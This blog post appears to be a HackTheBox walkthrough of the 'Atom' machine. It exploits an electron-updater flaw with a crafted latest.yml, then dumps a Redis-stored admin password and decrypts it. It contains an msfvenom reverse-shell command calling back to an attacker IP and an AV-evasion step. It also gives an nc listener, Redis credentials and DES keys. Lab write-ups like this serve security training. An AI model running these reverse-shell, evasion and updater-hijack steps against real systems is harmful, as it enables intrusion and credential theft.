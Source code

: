 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/L26SsPBsmas/0.jpg
layout: post
media_subpath: /assets/posts/2021-07-10-electron-updater-rce-atom-hackthebox
tags:
- electron
- hackthebox
- kanban
- windows
title: Electron-Updater RCE - Atom @ HackTheBox
---
```


We are going to solve Atom, a 30-point machine on HackTheBox where we’ll analyze an electron app and exploit its updater. For root we will enumerate the running Redis instance, find an encrypted kanban password and then decrypt it.

{% youtube L26SsPBsmas %}

## Notes

**Generate payload**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=1337 -f exe -o msf.exe
```

Then use [morbol ](https://github.com/xct/morbol.git)to add some av evasion (remember to rename the resulting file so it contains a single quote):

```
python3 morbol.py msf.exe x.exe
```

Latest.yml (update hash with `shasum -a 512 "x'.exe" | cut -d " " -f1 | xxd -r -p | base64` ):

```
version: 1.2.0
releaseDate: '2021-04-04T07:30:23.993Z'
path: http://10.10.14.13/x%27.exe
sha512: 7baNMM7wDS57/DUSc50QXQs7up1ZehDbj9i31nJp3s9mlQLMxOWO/6JnxnT8NRbXvoV32L4PVxQoqla4ACLOLA==
```

Put payload into "software\_updates" smb share and catch shell with `nc -lnvp 1337`.

**Enumerate redis**

```
redis-cli -h atom.htb -a kidvscat_yes_kidvscat
info
select 0
keys *
atom.htb:6379> GET "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
```

Decrypt password with [CyberChef ](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)DES_Decrypt(%7B'option':'UTF8','string':'7ly6UznJ'%7D,%7B'option':'UTF8','string':'XuVUm5fR'%7D,'CBC','Raw','Raw')&input=T2RoN04zTDlhVlE4L3NyZFpnRzJoSVIwU1NKb0pLR2k)and use WinRM to connect as Administrator.